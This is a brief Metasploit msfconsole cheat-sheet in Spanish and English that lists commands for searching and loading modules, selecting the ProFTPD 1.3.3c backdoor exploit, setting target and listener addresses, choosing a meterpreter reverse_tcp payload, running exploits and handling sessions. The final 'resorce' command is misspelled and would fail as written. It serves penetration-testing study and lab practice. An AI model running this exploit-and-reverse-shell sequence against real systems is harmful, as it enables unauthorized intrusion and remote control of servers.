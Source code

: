 # MSF Console

`msfconsole` es la interfaz más utilizada y *principal*, así como la más completa, del Framework de Metasploit: básicamente una consola interactiva (CLI) que permite realizar múltiples tareas como buscar y cargar módulos, configurar opciones, ejecutar exploits/auxiliares, gestionar la base de datos, manejar sesiones y automatizar tareas. 

---
# Useful commands

```bash
 # Initialize console
 msfconsole
 
 # Search a module
 search name:apache type:exploit
 
 # Select a module
 use exploit/multi/handler
 use exploit/unix/ftp/proftpd_133c_backdoor
 
 # See required options
 show options
 
 # See script information
 info
 
 # See script advanced options
 show advanced options
 
 # Set global vars
 setg NAME value
 
 # Set options
 set RHOST 10.10.10.5
 set RPORT 21
 set PAYLOAD linux/x86/meterpreter/reverse_tcp
 set LHOST 10.0.0.5
 
 # Execute exploit
 run
 exploit -j # In background
 
 # Show sessions
 sessions -l
 sessions -i 1
 
 # Export script resoure 
 resorce /ruta/script.rc
 ```